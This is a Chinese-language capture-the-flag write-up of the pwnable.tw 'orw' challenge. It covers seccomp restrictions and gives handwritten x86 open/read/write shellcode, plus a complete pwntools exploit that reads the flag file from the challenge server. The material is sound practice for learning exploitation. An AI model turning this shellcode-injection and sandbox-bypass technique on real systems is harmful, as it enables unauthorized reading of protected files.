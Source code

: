 ```yaml
---
title: Pwnable.tw-orw
data:
tags: [CTF, PWN]
categories: pwn练习
---
```

## 0x01 IDA分析
拿到程序不多bb，首先DIE看一波文件类型，发现是gcc编译的32位的文件，没加壳。直接拖进IDA，发现前面有个seccomp函数，并不知道做了什么操作，先不管，继续往下看，发现有个直接往bss上写shellcode，然后执行shellcode的操作。  

## 0x02 SECCOMP  
EXP写完后跑了一下发下并没有弹shell，奇怪，进去跟了一下，发现int 80调用execve执行/bin/sh后一条指令报错，怀疑是shellcode的原因，更换了几个shellcode发现仍然不行，这时猜测是SECCOMP的原因，查了一下发现这是个类似黑白名单的东西，把一些危险函数过滤掉，在pwn题中此工具做沙箱保护很常见，通常禁用一部分syscall，比如execve等，这样就没法直接弹shell了。    

## 0x03 How to reverse  
在这个成熟的保护机制下衍生了很多逆向工具，这边使用的是[Seccomp-tools](https://github.com/david942j/seccomp-tools)，看下效果。  
![image](./seccomp-tools.png)  

可以看到程序只允许执行open、read、write、exit等函数，直接syscall或者execve是不被允许的，所以此题只能在open、read、write这三个函数的基础上去思考如何利用。  

## 0x04 Shellcode  
虽然不能直接写execve弹shell，但是换个思路利用open打开文件句柄，read在打开的文件描述符上进行读取，之后用write输出到标准输出仍然可以达到一样的效果。  
这边根据[Linux下的系统调用编号](https://syscalls.kernelgrok.com/)进行编写shellcode。  
shellcode如下：
```
shellcode="""
mov eax,5
push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80

mov eax,3
mov ecx,ebx
mov ebx,3
mov edx,0x40
int 0x80

mov eax,4
mov ebx,1
mov edx,0x40
int 0x80
```

open那里把路径压栈后把esp值赋给ebx，open函数打开一个文件句柄，存储在eax中，read函数从eax中存储的句柄进行读取。  

## 0x05 EXP  
这边贴下完整的EXP：
```
from pwn import *
context(log_level='debug',arch='i386',os='linux')
p=remote('chall.pwnable.tw',10001)
p.recvuntil(':')
shellcode="""
mov eax,5;
push 0x00006761;
push 0x6c662f77;
push 0x726f2f65;
push 0x6d6f682f;
mov ebx,esp;
xor ecx,ecx;
xor edx,edx;
int 0x80;

mov eax,3;
mov ecx,ebx;
mov ebx,eax;
mov edx,0x40;
int 0x80;

mov eax,4;
mov ebx,1;
mov edx,0x40;
int 0x80;
"""
p.sendline(asm(shellcode))
p.interactive()                    
```

看到有dalao直接用pwntools的shellcraft模块做的，羡慕一波  
![image](./shellcraft.png)  


## 0x06 GetFlag  
不过最终还是拿到了Flag，这道题主要就是一个SECCOMP需要注意下，还有就是如果是手写shellcode，需要注意syscall的调用号。  
![image](./getshell.png)  

